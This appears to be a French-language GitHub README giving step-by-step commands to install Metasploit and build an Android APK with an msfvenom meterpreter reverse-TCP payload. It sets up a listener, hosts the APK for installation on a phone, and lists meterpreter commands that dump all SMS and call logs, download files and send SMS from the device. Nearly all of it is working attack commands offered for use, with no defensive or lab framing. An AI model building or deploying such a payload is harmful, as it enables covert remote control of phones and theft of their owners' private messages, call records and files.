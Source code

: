 # android-metasploit
Installer et configure android metasploit dans un serveur


# Installation

### Metasploit
- pour install metasploit executer la commande suivante dans le terminal de la machine. pour plus de detail <a href="https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html">visitez ici</a>

```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

### Générer le fichier apk

```
cd /opt/metasploit-framework/bin
```

```
sudo msfvenom -p android/meterpreter_reverse_tcp LHOST=<IP de l'hôte> LPORT=<porte souhaité> -o /data/omg.apk
```

### Démarrer le metasploit
```
msfconsole

use exploit/multi/handler

set payload android/meterpreter_reverse_tcp

set lhost <IP de l'hôte>
set lport <port utilisé ci-dessus>

run
```

## Ça y est
Il reste qu'à install le fichier apk dans un téléphone android.

- démarrer server python heberger local pour le test
```
python3 -m http.server <port>
```



# Les commands 
Utilisation de command pour manipuler le téléphone android depuis le terminal metasploit.


- Recuperer tous les sms
```
dump_sms 
```

- Recuperer tous les historique des appels
```
dump_calllog
```


- Recuperer un fichier ou dossier
```
download /lechemin/vers/lefichier-ou-dossier-a/telecharger /chemin/de/suavegarde
```


- Envoyer un fichier ou dossier
```
upload /chemin/de/depuis/leserveur /lechemin/vers/android
```


- Envoyer sms
```
send_sms -d "numero de distination" "contenu du message"
```


- Quelque commands habituel
```
cd

pwd

ls
```


- dossier racine android
```
cd /storage/emulated/0 ou cd /sdcard
```


## Ressource
plus d'infos concernant l'installation de metasploit android:
https://www.dropbox.com/s/axudgf8w8vvjjbx/OMG%20Cable%20Android%20APK%20-%20Linode.pdf?dl=0


